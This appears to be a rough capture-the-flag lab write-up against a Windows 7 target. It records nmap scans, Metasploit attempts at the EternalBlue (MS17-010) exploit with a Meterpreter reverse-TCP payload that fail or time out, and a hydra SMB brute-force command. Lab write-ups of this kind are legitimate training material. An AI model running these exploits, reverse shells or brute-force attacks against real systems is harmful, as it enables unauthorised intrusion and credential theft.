

```
C:\home\kali> nmap -sC -sV -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 01:54 EST
Nmap scan report for 10.10.10.40
Host is up (0.21s latency).
Not shown: 798 closed tcp ports (conn-refused), 194 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows


```

from https://nmap.org/book/port-scanning.html


Port 445 (Microsoft-DS)—For SMB communication over IP with MS Windows services (such as file/printer sharing).

Port 139 (NetBIOS-SSN)—NetBIOS Session Service for communication with MS Windows services (such as file/printer sharing). This has been supported on Windows machines longer than 445 has.

https://www.hackingarticles.in/smb-penetration-testing-port-445/

```
C:\home\kali> nmap -p 445 -A -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 02:09 EST
Nmap scan report for 10.10.10.40
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
```
trying eternal blue

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
rhost => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 10.10.10.40:445       - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[-] 10.10.10.40:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

```

did not work

we can try and brute force with hydra

```
hydra -L user.txt -P pass.txt 192.168.1.101 smb
```

once we have login credentials we can then connect to the machine using meterpreter shell

target was vulnerable for a brief while t ms17

```

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[-] 10.10.10.40:445 - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] Exploit completed, but no session was created.

```

but then after tha it just shows that target isnt vulnerable



the trick was smb exploit eternalblue


